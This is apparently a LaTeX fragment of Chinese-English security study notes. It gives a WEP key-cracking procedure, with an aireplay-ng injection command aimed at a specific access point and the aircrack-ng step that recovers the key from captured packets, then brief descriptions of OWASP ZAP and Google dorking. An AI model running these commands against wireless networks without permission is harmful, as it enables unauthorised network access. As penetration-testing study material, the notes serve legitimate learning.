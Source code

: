 \documentclass{book}
\begin{document}
\begin{lstlisting}[language=Bash]
aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b C0:61:18:9A:76:D2 -h 00:25:d3:9a:b6:01 mon0
\end{lstlisting}


（-h后面跟着的My MAC是自己的无线网卡的MAC地址，即ifconfig命令下wlan0对应的mac地址)

\paragraph{解密}
收集有15000个以上的DATA之后，另开一个终端，切换到aircrack-ng-1.1目录，执行以下命令
sudo aircrack-ng wep*.cap
进行解密
（如果没算出来的话，继续等，aircrack-ng 会在DATA每增加多15000个之后就自动再运行，
直到算出密码为至，注意此处文件的名字要与步骤3里面设置的名字一样，且*号是必需的）

\section{ZAP}

The OWASP Zed Attack Proxy (ZAP) is one of the world’s most popular free security tools 
and is actively maintained by hundreds of international volunteers*. 
It can help you automatically find security vulnerabilities in your web 
applications while you are developing and testing your applications. 
Its also a great tool for experienced pentesters to use for manual security testing.
使用Java语言开发。

\section{Hacking}

\subsection{Google Hacking}

Google hacking, also named Google dorking, 
is a computer hacking technique that uses Google Search and other 
Google applications to find security holes in the configuration and computer code that websites use.
这是一个Google搜索技巧的清单:
\end{document}
